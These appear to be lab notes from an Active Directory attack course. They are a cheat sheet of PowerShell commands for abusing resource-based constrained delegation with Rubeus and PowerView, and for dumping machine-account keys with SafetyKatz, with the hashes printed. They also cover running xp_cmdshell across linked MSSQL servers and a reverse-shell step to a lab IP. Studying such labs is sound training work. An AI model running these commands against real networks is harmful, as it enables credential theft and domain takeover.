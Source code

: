 {% tab title="RBCD" %}
Resource-Based → same as CD, but based on the resource itself (LA → DA):

{% code overflow="wrap" %}
```powershell
# Start a process as the LA of the target host
Loader.exe -path Rubeus.exe -args asktgt /user:<LA> /aes256:<key> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt

# Configure RBCD for the target account (PowerView)
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std337$'

# Confirm that the above worked (PowerView)
> Get-DomainRBCD

SourceName                 : DCORP-MGMT$
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD337$

# Extract the account's credentials (from an elevated shell on std337)
> Loader.exe -path SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"

Username : dcorp-std337$
aes256_hmac   b8369e2c5c07015f0f9138ee81625edf969135cb174f4ad452f7ae0634534bea
rc4_hmac_nt   15f64792d8eb59d41a6668596e037793

# Abuse RBCD to access dcorp-mgmt as DA (as student337 on dcorp-std337)
Loader.exe -path Rubeus.exe -args s4u /user:dcorp-std337$ /aes256:<key> /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

# Test access on the target host
winrs -r:dcorp-mgmt "set username & set computername"
```
{% endcode %}
{% endtab %}

{% tab title="MSSQL" %}
Use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL):

{% code overflow="wrap" %}
```powershell
# Gather server information (PowerUpSQL)
Get-SQLInstanceDomain | Get-SQLServerinfo | select computername,instance

# Check access (PowerUpSQL)
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | select computername,status

# Enumerate linked chains
Get-SQLServerLinkCrawl -Instance dcorp-mssql | select instance,path

# Run query on all chain links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'"

# Run query on a target link
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'" -QueryTarget EU-SQL23

# Get a reverse shell (add "Power -Reverse -IPAddress 172.16.100.X -Port 443" to the end of the file)
```